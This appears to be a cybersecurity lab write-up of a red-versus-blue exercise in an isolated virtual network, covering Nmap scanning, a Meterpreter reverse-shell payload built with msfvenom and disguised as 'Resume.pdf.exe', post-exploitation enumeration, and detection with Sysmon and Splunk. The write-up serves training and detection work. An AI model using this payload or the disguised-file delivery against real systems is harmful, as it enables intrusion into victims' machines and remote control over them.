Red vs. Blue: MITRE-Tagged Telemetry Lab
Building a full attack-and-detect pipeline — from payload delivery to SIEM visibility — using Sysmon, Splunk, and Metasploit in an isolated virtual lab.
Lab Overview
Objective
The goal of this lab was to build a complete red-versus-blue pipeline in an isolated virtual environment: simulate a real attack using Metasploit, capture the resulting telemetry through Sysmon, ingest it into Splunk, and then hunt for evidence of the attack using SPL queries. The Olaf Sysmon configuration was chosen specifically because it tags events with MITRE ATT&CK technique IDs, producing actionable, high-fidelity logs rather than the high-volume noise of a default Sysmon install.
Environment Setup
Both virtual machines were placed on an isolated internal network called testnet with static IP addresses assigned to each, ensuring they could communicate with each other while remaining completely cut off from the internet. This kept the lab contained and focused.
- Kali Linux (attacker):
192.168.20.11 - Windows 10 Pro (victim):
192.168.20.10
Phase 1 — Reconnaissance
From the Kali terminal, connectivity to the Windows VM was confirmed with a ping, followed by an aggressive Nmap scan to enumerate open ports and services. The -Pn flag was used to skip ICMP host discovery and reduce scan noise.
nmap -A 192.168.20.10 -Pn
The scan revealed several open ports. Port 3389/tcp (RDP) was selected as the delivery vector for the next phase.
Phase 2 — Payload Creation with msfvenom
A reverse TCP payload was crafted using msfvenom. The payload was disguised as a PDF file to simulate a social engineering scenario — a common real-world delivery mechanism. The file would, when executed, establish a Meterpreter shell back to the attacker machine.
msfvenom -p windows/x64/meterpreter_reverse_tcp \
lhost=192.168.20.11 lport=4444 \
-f exe -o Resume.pdf.exe

A Python HTTP server was spun up on port 9999 on the Kali machine to serve the payload file to the Windows VM without requiring any external network access.
Phase 3 — Establishing a Handler
With the payload ready, Metasploit's msfconsole was used to open a listener configured to catch the incoming reverse connection once the payload executed on the victim machine.




With the handler properly configured, a Python HTTP server was started on port 9999 to host the malicious payload file for delivery to the Windows VM.

Phase 4 — Payload Delivery and Execution
Windows Defender was disabled on the victim VM to simulate an unprotected endpoint (a common real-world scenario in poorly maintained environments). The payload was downloaded from the Python HTTP server and executed.

After downloading and executing the malicious file, the connection back to the Kali machine was established. This was verified on the Windows side using netstat.


Phase 5 — Post-Exploitation Enumeration
With an active Meterpreter session, several standard post-exploitation commands were run to enumerate the victim machine — mimicking the reconnaissance an attacker would conduct after gaining initial access.
shell # drop into cmd shell
net user # enumerate local user accounts
net localgroup # enumerate local groups
ipconfig # gather network configurationPhase 6 — Blue Team: Sysmon + Splunk Detection
With the attack complete, focus shifted to the defensive side. Sysmon was already installed on the Windows VM with the Olaf configuration, which enriches events with MITRE ATT&CK technique IDs. Splunk was running as the centralized SIEM to ingest and query these logs.
A custom inputs.conf file was deployed to redirect Splunk's data ingestion through Sysmon's event stream, and the Sysmon app for Splunk was sideloaded into the root app directory to enable proper parsing and visualization.

Phase 7 — Threat Hunting with SPL
With Sysmon data flowing into Splunk, SPL queries were used to isolate activity originating from the attacking Kali machine and track the commands that were run during the post-exploitation phase.


Lessons Learned
- 01ICMP traffic was blocked at the start of day two because outbound File and Printer Sharing (Echo Request / ICMPv4) had not been enabled for public profiles on the Windows firewall. Enabling it restored ping connectivity and unblocked the project.
- 02The Windows VM required a minimum of 3 cores and 6GB RAM to run smoothly. Future Windows Pro lab builds should use this as a baseline spec.
- 03Transferring files into an air-gapped VM required mounting VirtualBox Guest Additions and using the drag-and-drop feature. This avoided a time-consuming network reconfiguration and is a useful technique for future isolated lab work.
- 04The Splunk Sysmon app had to be sideloaded manually by placing it in the root app directory rather than downloading it through Splunk's marketplace — a consequence of the isolated network. The same transfer method used for inputs.conf was applied here.
Takeaways
This lab demonstrated the full lifecycle of an attack from both perspectives. On the red side, a reverse shell was established via a weaponized file and used for post-exploitation enumeration. On the blue side, every meaningful action was captured, tagged with MITRE ATT&CK IDs, and made queryable in Splunk. The Olaf Sysmon config proved its value immediately — the difference between raw Windows logs and MITRE-tagged telemetry is the difference between noise and signal.
The most important takeaway is operational: knowing how attackers move through a system makes it significantly easier to know what to look for as a defender.